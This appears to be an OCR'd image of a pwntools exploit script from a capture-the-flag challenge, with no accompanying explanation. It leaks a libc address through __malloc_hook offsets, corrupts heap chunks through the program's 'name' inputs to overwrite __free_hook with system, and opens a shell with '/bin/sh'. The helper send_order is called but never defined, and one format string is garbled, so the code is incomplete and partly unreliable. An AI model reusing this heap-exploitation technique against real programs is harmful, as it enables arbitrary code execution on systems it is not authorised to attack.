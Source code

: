 ```


def send_level(level):
    p.sendlineafter("Please input an level from 1-9:\n", level)


def leave_name(name):
    p.sendlineafter("your name:", name)


send_level("q")
send_order("n")
send_order("y")
send_level("l")
p.recvuntil("message:")
libc.address = u64(p.recvline().strip(b"\n").ljust(8, b"\x00")) - 96 - 0x10 - libc.sym['__malloc_hook']
log.success("libc address is `{``}`".format(hex(libc.address)))

send_level("1")
send_order("2")
send_order("q")
send_order("n")
leave_name(b"a"*0x70) # name vector 1, ex
send_order("y")

send_level("1")
send_order("q")
send_order("y")
leave_name(p64(libc.sym['__free_hook']- 0x8).ljust(0x50, b"\x00")) # name vector 2, ex
send_order("y")

send_level("1")
send_order("q")
send_order("y")
leave_name(b"a"*0x50) # name vector 3, ex
send_order("y")

send_level("1")
send_order("q")
send_order("y")
leave_name((b"/bin/sh\x00" + p64(libc.sym['system'])).ljust(0x50, b"\x00"))

p.interactive()
```
